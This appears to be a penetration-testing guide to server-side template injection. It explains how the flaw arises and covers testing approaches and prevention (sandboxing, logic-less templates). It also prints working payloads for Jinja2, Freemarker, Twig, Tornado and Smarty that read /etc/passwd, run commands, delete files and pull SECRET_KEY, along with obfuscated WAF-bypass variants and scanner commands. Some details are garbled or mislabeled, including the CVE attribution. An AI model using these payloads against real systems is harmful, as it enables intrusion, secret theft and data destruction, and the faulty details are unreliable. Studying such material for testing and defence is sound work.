

Server-Side Template Injection (SSTI) #
Introduction #
Server-Side Template Injection (SSTI) is a web vulnerability that happens when an attacker can inject malicious input into a server-side template, and that input gets executed by the template engine instead of being treated as plain text.
- Suppose a developer uses Jinja template engine and created a code block as
<h1> Hello {{ username }}</h1>
- If the user input section (username) is not sanitized then it can execute different system level commands. One can confirm it using a mathematical expression
7*7
- If the output comes as 49 then the username section may be vulnerable to SSTI
Fundamentals of Server-Side Template Injection (SSTI) #
What is a Template Engine?
A template engine is a software component that generates dynamic content by combining static templates with user-provided or application data. Instead of hardcoding HTML pages, developers use templates containing placeholders that are replaced with actual values during server-side rendering.
For example, consider the following template:
<h1>Hello {{ username }}</h1>
If the application receives the following data:
username = Alice
The rendered output becomes:
<h1>Hello Alice</h1>
How Template Engines Work #
The typical rendering process is:
User Input
│
▼
Application
│
▼
Template Engine
│
▼
Rendered HTML
│
▼
Browser
The template engine interprets special syntax (such as {{ }}, ${ }, <%= %>, etc.) and replaces placeholders with the supplied data before sending the final response to the client.
Why SSTI Occurs #
Server-Side Template Injection occurs when user-controlled input is interpreted as template code instead of being treated as plain text.
Instead of inserting user input as data:
Hello Alice
the application may evaluate it as a template expression.
For example, if an attacker supplies:
{{7*7}}
the template engine evaluates the expression and returns:
49
instead of displaying the literal string:
{{7*7}}
This confirms that user input is being executed by the template engine.
Server-Side Rendering vs Client-Side Rendering #
| Server-Side Rendering (SSR) | Client-Side Rendering (CSR) |
|---|---|
| Templates are rendered on the server. | Templates are rendered in the browser. |
| Vulnerable to SSTI if user input is evaluated. | Not vulnerable to SSTI (though client-side template injection may occur). |
| Examples: Jinja2, Twig, Freemarker, Velocity | Examples: React, Angular, Vue |
Common Template Syntax #
Different template engines use different delimiters for expressions.
| Syntax | Example |
|---|---|
{{ }} |
{{7*7}} |
${ } |
${7*7} |
<%= %> |
<%= 7*7 %> |
#{ } |
#{7*7} |
{% %} |
{% if user %} (logic statements) |
Understanding the syntax helps identify the underlying template engine during testing.
Template Execution Flow #
Attacker Input
│
▼
Application
│
▼
Template Engine
│
├── Safe Input
│ │
│ ▼
│ Render as Text
│
└── Malicious Template Expression
│
▼
Execute Expression
│
▼
Access Objects / Files / OS
│
▼
Sensitive Data or RCE
Attack Surfaces #
User controlled content rendered in HTTP response #
- Profile name
- Bio / About Me
- Display name
- Comments
- Reviews
- Blog posts
- Forum posts
- Product descriptions
- Ticket titles / descriptions
- Chat messages
Email Templates #
Many apps dynamically generate emails using templates:
- Welcome emails
- Password reset emails
- Invoice emails
- Notification emails
- Order confirmation
- Support responses
PDF / Invoice Generators #
Apps frequently generate
- Reports
- Certificates
- Bills
- Receipts
- Contracts
User-supplied
- Customer name
- Address
- Notes
- Organization
Admin Dashboards #
Admins dashboards can be customized with
- Table column names
- Widget titles
- Filters
- Chart labels
- Custom queries
- Report templates
These are often rendered via
- Stored values from DB
- Role-based configs
- User preferences
Search / Filter Functionalities #
- Search query
- Sorting key
- Filter name
- Category label
File names / Metadata #
- Upload success message
- Gallery listing
- Document viewer
- Logs
- Exported reports
Logs / Debug Pages #
- Error Messages
- Debug Messages
- Activity History
HTTP Headers #
- User-Agent
- Referer
- X-Forwarded-For
- X-Client-IP
- Host
- Origin
Exploiting SSTI #
The template engine #
- After finding out the template engine one can follow the official documents of the template engine.
- Learn about the points mentioned
- How to start a print statement [ eg: {{ ]
- How to end a print statement [ eg: }} ]
- How to start a block statement [ eg: {% ]
- How to end a block statement [ eg: %} ]
- Can one use the code block [ eg: {{ … }} ]
- How to comment (eg: {*…….*} )
Understanding the context #
-
One need to understand the way application including the user input into the template
- The backend code is as in Jinja
.... .... user = current_user <h1> hello {{ user }} </h1> ... ...- One have to craft a payload as
% import os %}} {{os.remove('/home/carlos/morale.txt')
Object Listing #
- There are mainly two type of objects used
- By-default objects
- Custom objects
- One can list available objects to craft a payload
- For a Java based template engine one can use this to list all the available objects
${T(java.lang.System).getenv()}
- In Django Template one can list all the available objects using debug
{% debug %}
Object Chaining #
After finding out the available objects one can chain them up to make the final payload
Jinja2 #
Docs #
- The print statement started with
{ … } - Any code to execute
{{…}} - The code block started with
{% … %} - Comment ⇒
{\* … *\}
Information Disclosure #
We can reveal internal configuration details and source code of the web application by using the payload as
Configuration Details #
{{ config.items() }} => undefined
Built-in Functions #
To list all built in functions we can use this payload
{{ self.__init__.__globals__.__builtins__ }}
Impact #
LFI
{{ self.__init__.__globals__.__builtins__.open('/etc/passwd').read() }}
- This payload exploits a Server-Side Template Injection vulnerability in the Jinja2 by using
selfto access the template object’s__init__function, then its__globals__dictionary to reach Python__builtins__, from which it calls the built-inopen()function to open/etc/passwdandread()its contents, thereby exposing sensitive user account data from a Linux server. RCE
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
- It is accessing the
requestobject to reachapplication.__globals__.__builtins__, using the built-in__import__()function to load the os module, executing the system commandidthroughos.popen(), and returning its output withread(), effectively achieving command execution on the underlying Linux server.
Freemarker (Java) #
Basic Java Injection Payloads #
- Extracting the environmental information
${ T(java.lang.System).getenv() }
- It is using
T()to access the Java classjava.lang.Systemand callinggetenv()to retrieve and display all environment variables from the server. - Running Arbitrary Commands
${ T(java.lang.Runtime).getRuntime.exec('cat /etc/passwd') }
${ "freemarker.template.utility.Execute"?new()('whoami') }
- It is creating an instance of
freemarker.template.utility.Executeusing?new()and executing the system commandwhoami, allowing command execution on the underlying Linux server.
Impact #
RCE-
Here
?new()is a built in method to create a new instance. TheExecuteclass is a dynamic class, so we have to create a new instance to use it.<#assign ex="freemarker.template.utility.Execute"?new()>${ex('whoami')}
-
Twig (PHP) #
Information Disclosure #
One can extract current template name
{{ _self }} => Current template name
{{ _context }} => current context
{{ _charset }} => References the current charset
Impact #
-
LFI
Reading and Including local files is not possible by using any by default function of twig. But if the back end is using a PHP based web framework like
symfony, that defines some additional twig filters. Likefile_excerpthelps to read server side files{{ "/etc/passwd"|file_excerpt(1,-1) }} -
RCE
{{ ['id'] | filter('system') }}
Advanced Attacks #
Bypassing WAF Filter ⇒ ‘ . ’ #
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']()}}
Filter ⇒ ‘ . ’ and ‘ _ ’ #
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}
Filter ⇒ ‘ . ’ and ‘ _ ’ and ‘ [ ] ’ #
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
Extracting SECRET_KEY in Jinja #
- By using the
configobject we can list a number of key value pair, there we can find the key named asSECRET_KEYwhich is used to sign user cookies
{{ config["SECRET_KEY"] }}
- If the config is blacklisted or filtered, we can use the
selfobject, then we have to use CTRL + F to find for the word SECRET_KEY
{{ self.__dict__ }}
Python Literal Hex Encoding #
- We can convert the quoted strings into hex representation. If there is any
wafthat blocks the double and single quote we can use this bypass method. - This payload
{{ g.__class__.__mro__[3].__subclasses__()[30]('/etc/passwd').read() }}
- Can be written as
{{ g.__class__.__mro__[3].__subclasses__()[30]('\x2F\x65\x74\x63\x2F\x70\x61\x73\x73\x77\x64').read() }}
- This can be easily achieved by using the
.hex()method in python
s = b'/etc/passwd'
print(s.hex())
OUTPUT:
'2f6574632f706173737764'
Bypassing Filters [ Freemarker Java ] #
?lower_abcand?upper_abc- The basic payload ⇒
${"freemarker.template.utility.Execute"?new()exec('id')}
- Many
WAFused to block certain character and words to mitigate the attack - We can bypass this types of filters by using the in built functions such as
?lower_abcand
?upper_abc
- This functions used to map the characters according to the numbers in alphabetical order, as
1?lower_abc a
2?lower_abc b
6?lower_abc f
24?lower_abc x
5?upper_abc E
- We can use this function to generate the payload as
${"freemarker.template.utility.Execute"?new()exec("id")}
to this ⇒
${(6?lower_abc+18?lower_abc+5?lower_abc+5?lower_abc+13?lower_abc+1?lower_abc+18?lower_abc+11?lower_abc+5?lower_abc+18?lower_abc+1.1?c[1]+20?lower_abc+5?lower_abc+13?lower_abc+16?lower_abc+12?lower_abc+1?lower_abc+20?lower_abc+5?lower_abc+1.1?c[1]+21?lower_abc+20?lower_abc+9?lower_abc+12?lower_abc+9?lower_abc+20?lower_abc+25?lower_abc+1.1?c[1]+5?upper_abc+24?lower_abc+5?lower_abc+3?lower_abc+21?lower_abc+20?lower_abc+5?lower_abc)?new()(9?lower_abc+4?lower_abc)}
- This ⇒
${"freemarker.template.utility.Execute"?new()exec("whoami")}
to this ⇒
${(6?lower_abc+18?lower_abc+5?lower_abc+5?lower_abc+13?lower_abc+1?lower_abc+18?lower_abc+11?lower_abc+5?lower_abc+18?lower_abc+1.1?c[1]+20?lower_abc+5?lower_abc+13?lower_abc+16?lower_abc+12?lower_abc+1?lower_abc+20?lower_abc+5?lower_abc+1.1?c[1]+21?lower_abc+20?lower_abc+9?lower_abc+12?lower_abc+9?lower_abc+20?lower_abc+25?lower_abc+1.1?c[1]+5?upper_abc+24?lower_abc+5?lower_abc+3?lower_abc+21?lower_abc+20?lower_abc+5?lower_abc)?new()(23?lower_abc+8?lower_abc+15?lower_abc+1?lower_abc+13?lower_abc+9?lower_abc)}
CVE-2021-25770 #
- We can check for the
Freemarkerversion as
<#assign the_version=.version>
${the_version}
- If the version is
< 2.3.30It is vulnerable - We can use the
freemarker.template.utility.Execute()to run arbitrary commands
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id") }
Detection #
Manual Techniques #
Identify the injection point
- Identify if some of the user controllable input is reflecting in the http response
- Trying different sequence of special characters and notice
- If you are getting some error messages.
- Whether some of the user inputs are missing in the response.
${{<%[%'"}}%\
$<
$$
{{%
}}
{{7*7}}
${7*7}
[[7*7]]
Identify the template engine
- One can follow this tree to identify the template engine used by the application

- Starting at very left, including the parameter into my request.
- Following **
Green arrow**when ⇒ The expression is evaluated (i.e 49) - Following
Red arrowwhen ⇒ The expression is shown in the output (i.e ${7*7}) - Sometimes You can try to trigger a Template Error to get some data back which can reveal the template engine name itself.
Automated Techniques #
Tplmap- Tplmap is used detect and exploit SSTI in a range of template engines to get access to the underlying file system and operating system. Run it against the URL to test if the parameters are vulnerable.
https://github.com/epinna/tplmap
./tplmap.py -u 'http://www.target.com/page?name=John'
SSTImap- SSTImap is a penetration testing software that can check websites for Code Injection and Server-Side Template Injection vulnerabilities and exploit them, giving access to the operating system itself.
https://github.com/vladko312/SSTImap
./sstimap.py -u https://example.com/page?name=John
-
Fuzzing- ffuf
- One can use this tool with some fuzzing payloads that can be accessed from ⇒ https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server Side Template Injection/Intruder/ssti.fuzz
ffuf -w /usr/share/wordlists:FUZZ -u https://target.com/page?name=FUZZ -H "Cookie: SESSION-COOKIE-HERE" -mc all-wis used to specify the wordlists used-uis used to specify the target URL-Hflag is used to mention the session cookie so one can run an authenticated fuzzing-mcis used to filter out the results on the basis of status code.
Impact #
Remote Code Execution #
-
Jinja2 (Python)-
Server side command execution
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
-
-
Tornado (Python){%import os%}{{os.system('id')}} -
FreeMarker (Java)<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
Deleting Arbitrary Server Side Files #
-
EBT (Ruby)File.delete('/path/to/file') -
Tornado (Python){%import os%}{{os.remove('path/to/file')}} -
Smarty (PHP${unlink('/path/to/file')}
LFI #
-
Jinja (Python){{ self.__init__.__globals__.__builtins__.open('/etc/passwd').read() }} -
Tornado (Python){%import os%}{{os.popen('path/to/file').read()}}
Tools #
SSTImap
https://github.com/vladko312/SSTImap
Tplmap
https://github.com/epinna/tplmap
ffuf
Prevention Techniques #
Avoid rendering user input as template #
- Avoid using code format like shown below
render_template_string(user_input)
Using Logic-less templates #
- Mustache
- Handlebars
- Liquid
- Beard
- Stubble
Template Sandboxing #
-
Restricting Attribute Access
__class__ __mro__ __subclasses__ -
Blocking Function Calls
{{ some_function() }} -
Example of Sandbox environment in Jinja
from jinja2.sandbox import SandboxedEnvironment env = SandboxedEnvironment()
Good to Read #
- https://hackerone.com/reports/125980
- https://hackerone.com/reports/164224
- https://hackerone.com/reports/423541
References #
- https://portswigger.net/web-security/server-side-template-injection
- https://portswigger.net/research/server-side-template-injection
- https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection
- https://www.imperva.com/learn/application-security/server-side-template-injection-ssti/
- https://medium.com/@yadav-ajay/ssti-server-side-template-injection-746dda439038
- https://www.paloaltonetworks.com/blog/cloud-security/template-injection-vulnerabilities/
- https://research.checkpoint.com/2024/server-side-template-injection-transforming-web-applications-from-assets-to-liabilities/
- https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti